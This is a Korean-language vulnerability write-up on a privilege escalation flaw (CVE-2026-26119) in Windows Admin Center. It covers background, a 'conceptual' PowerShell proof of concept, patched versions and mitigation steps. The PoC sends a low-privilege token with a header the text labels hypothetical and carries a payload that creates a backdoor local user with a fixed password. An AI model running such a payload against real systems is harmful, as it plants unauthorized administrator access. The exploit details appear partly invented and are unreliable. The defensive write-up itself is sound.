

## 서론

한때 기업의 인프라 운영자는 데이터 센터에 직접 상주하며 물리적인 서버 랙을 관리해야 했습니다. 하지만 클라우드와 하이브리드 환경으로의 전환이 가속화되면서, 이제 관리자는 웹 브라우저 하나로 전체 서버 군을 제어합니다. 바로 이 지점에서 Windows Admin Center(WAC)가 등장했습니다. WAC는 현대적인 Windows 서버 관리의 핵심 허브로 자리 잡았지만, 동시에 가장 매력적인 공격 표적이 되었습니다.

CVE-2026-26119은 바로 이 관리 허브의 심장부를 타격하는 권한 상승(Privilege Escalation) 취약점입니다. 단순한 정보 노출을 넘어, 인증된 공격자가 제한된 권한을 가진 상태에서 관리자 권한을 탈취하여 시스템 전체를 장악할 수 있는 치명적인 결함입니다. 관리 도구가 뚫린다는 것은 건물의 관리실 열쇠를 도둑에게 내어주는 것과 같습니다. 이번 분석에서는 CVE-2026-26119의 기술적 메커니즘을 심층적으로 파헤치고, 공격자가 이 취약점을 어떻게 악용할 수 있는지, 그리고 우리는 어떻게 방어해야 하는지 다루겠습니다.

## 본론

### 기술적 배경 및 원리

Windows Admin Center는 HTML5 기반의 브라우저 관리 플랫폼으로, 게이트웨이(Gateway) 역할을 하는 서버와 관리 대상 노드(Managed Node) 간의 통신을 중계합니다. CVE-2026-26119은 WAC 게이트웨이 내의 권한 검증(Validation) 로직에서 발생합니다.

일반적으로 WAC는 RBAC(Role-Based Access Control)를 사용하여 사용자의 역할에 따라 접근 가능한 API 엔드포인트나 PowerShell 스크립트 실행을 제한합니다. 그러나 이번 취약점은 특정 API 요청을 처리하는 과정에서, 게이트웨이가 사용자의 컨텍스트를 적절히 격리하지 못하거나, 권한 상승이 필요한 작업에 대한 검증을 우회하는 로직을 포함하고 있어 발생합니다. 공격자는 일반 사용자 계정으로 인증한 뒤, 악의적으로 조작된 요청을 전송하여 WAC의 서비스 계정(SYSTEM 또는 관리자 권한) 컨텍스트로 명령을 실행할 수 있습니다.

다음은 이 취약점을 이용한 공격 흐름을 간략화한 다이어그램입니다.



### 공격 시나리오 및 코드 예시

공격자는 이미 WAC에 접근할 수 있는 유효한 자격 증명(예: 읽기 전용 권한을 가진 게스트 계정)을 확보한 상태라고 가정합니다. 공격자는 WAC의 내부 API를 호출하여, 권한 상승이 필요한 관리 기능(예: PowerShell 스크립트 실행, 서비스 재시작 등)을 트리거하려 시도합니다.

아래의 코드는 이러한 권한 상승 공격의 개념을 증명하는 PoC(Proof of Concept) 시나리오입니다. (※ 방어 목적의 교육용 코드이며, 실제 공격용으로 사용할 수 없도록 추상화되었습니다.)

```text
# Conceptual PoC for CVE-2026-26119 Analysis
# This script demonstrates how an attacker might attempt to abuse the API.

$wacGatewayUrl = "https://wac-server.example.com"
$targetNode = "managed-server-01"
$apiEndpoint = "/api/nodes/$targetNode/features/power-shell/session"

# 일반 사용자 토큰 (낮은 권한)
$userToken = "EY...UserReadOnlyToken..."

# 공격자는 HTTP 헤더를 조작하거나 요청 본문을 변조하여
# 시스템에서 권한 검증을 우회하려 시도할 수 있습니다.
$headers = @{
    "Authorization" = "Bearer $userToken"
    "Content-Type" = "application/json"
    "X-WAC-Privilege-Escape" = "true" # [Hypothetical] Malicious Header
}

# 관리자 권한이 필요한 악의적인 PowerShell 명령
# 실제 환경에서는 시스템 설정 변경, 백도어 생성 등이 수행될 수 있음
$payload = @{
    command = "Invoke-Expression 'New-LocalUser -Name Hacker -Password (ConvertTo-SecureString 'P@ssw0rd' -AsPlainText -Force) -Description 'Backdoor account'"
} | ConvertTo-Json

try {
    # API 요청 전송
    $response = Invoke-RestMethod -Uri "$wacGatewayUrl$apiEndpoint" -Method Post -Headers $headers -Body $payload
    Write-Host "Command executed successfully. Check for privilege escalation."
} catch {
    Write-Host "Attack failed: $_"
}
```

이 코드는 공격자가 권한 상승 취약점을 이용하여, 원래는 금지되어 있어야 할 PowerShell 명령(`New-LocalUser`)을 관리자 권한으로 원격 서버에 실행시키려는 시도를 보여줍니다.

### 영향 받는 버전 및 비교

이번 취약점은 특정 버전의 Windows Admin Center에 영향을 미칩니다. Microsoft는 보안 업데이트를 통해 이를 해결했습니다. 아래 표는 취약한 버전과 패치된 버전을 비교한 것입니다.

| 비교 항목 | 취약한 버전 (Vulnerable) | 패치된 버전 (Patched) |
| :--- | :--- | :--- |
| **Windows Admin Center** | 버전 1.x (특정 이전 빌드) | 2026년 3월 업데이트 이상 |
| **인증 메커니즘** | 토큰 검증 로직 결함 존재 | 강화된 RBAC 및 토큰 유효성 검사 |
| **영향 범위** | 인증된 모든 사용자 | 패치 적용 시 완화 |
| **CVSS 점수 (예상)** | 8.8 (High) | - |

### 완화 조치 및 대응 가이드

CVE-2026-26119에 대응하기 위한 단계별 가이드는 다음과 같습니다.

**Step 1: 즉시 업데이트 적용** 가장 확실한 대응은 Microsoft가 제공하는 최신 보안 업데이트를 즉시 적용하는 것입니다. Windows Admin Center를 설치한 서버에서 Microsoft Update 카탈로그를 확인하거나 자동 업데이트 기능을 통해 최신 버전으로 업그레이드하십시오.

**Step 2: 접근 제어 및 감사 강화** 패치 적용 전 완화 조치로서 WAC에 대한 네트워크 접근을 가능한 한 제한하십시오. 관리자 콘솔에 접근할 수 있는 IP 주소를 화이트리스트로 관리하고, 최소 권한 원칙(Least Privilege)을 준수하여 불필요한 사용자 계정은 WAC 사용 권한을 제거해야 합니다.

**Step 3: 비정상 활동 모니터링** WAC 게이트웨이 및 관리 대상 서버의 이벤트 로그를 모니터링하여, 비정상적인 PowerShell 실행이나 관리자 권한으로 수행된 의심스러운 작업이 없는지 확인해야 합니다. 특히 평소 사용하지 않던 계정에서 관리 작업이 시도될 경우 즉각적인 조치가 필요합니다.

## 결론

CVE-2026-26119는 단순한 버그가 아닌, 현대적인 관리 인프라의 신뢰 모델을 흔드는 심각한 보안 위협입니다. Windows Admin Center와 같은 관리 도구는 그 자체로 막강한 권한을 가지고 있기 때문에, 아주 작은 허점이라도 전체 시스템의 붕괴로 이어질 수 있습니다.

전문가 관점에서 볼 때, 이번 사태는 "관리 평면(Management Plane)" 보안의 중요성을 재확인했습니다. 방화벽과 엔드포인트 보안만으로는 부족하며, 관리 도구 자체의 무결성과 최신 상태 유지가 필수적입니다. 이미 제로데이 공격이나 제로데이에 준하는 공격 기법은 빠르게 진화하고 있으므로, 패치 관리는 보안 팀의 선택이 아닌 생존을 위한 필수 과제가 되었습니다.

지금 즉시 Windows Admin Center의 버전을 확인하고, 최신 보안 패치를 적용하여 인프라의 관리 권한을 탈취당하는 위험을 차단하시기 바랍니다.

### 참고자료

- [Microsoft Security Bulletin](https://msrc.microsoft.com/)

- [The Hacker News - Original Article](https://thehackernews.com)
